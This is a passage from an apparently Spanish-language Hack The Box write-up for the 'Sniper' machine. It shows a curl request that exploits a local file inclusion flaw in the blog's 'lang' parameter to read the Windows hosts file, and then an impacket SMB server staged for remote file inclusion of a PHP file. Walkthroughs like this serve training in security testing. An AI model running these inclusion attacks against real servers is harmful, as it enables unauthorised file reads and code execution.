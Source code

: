 Me puedo registrar, pero al iniciar sesión no accedo a ninguna interfaz

<img src="/writeups/assets/img/Sniper-htb/3.png" alt="">

En el ```/blog``` hay un parámetro vulnerable a LFI

```null
curl -s -X GET 'http://10.10.10.151/blog/?lang=\Windows\System32\drivers\etc\hosts' | html2text
    * Home
    * Language
          o English
          o Spanish
          o French
    * Download
          o Tools
          o Backlink

Fostrap
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used
by Microsoft TCP/IP for Windows. # # This file contains the mappings of IP
addresses to host names. Each # entry should be kept on an individual line. The
IP address should # be placed in the first column followed by the corresponding
host name. # The IP address and the host name should be separated by at least
one # space. # # Additionally, comments (such as these) may be inserted on
individual # lines or following the machine name denoted by a '#' symbol. # #
For example: # # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10
x.acme.com # x client host # localhost name resolution is handled within DNS
itself. # 127.0.0.1 localhost # ::1 localhost
```

También puedo cargar archivos remotos compartidos por un servicio SMB

```null
impacket-smbserver shared $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.151,49683)
[*] AUTHENTICATE_MESSAGE (\,SNIPER)
[*] User SNIPER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found PWNED.PHP
[-] SMB2_TREE_CONNECT not found PWNED.PHP
```
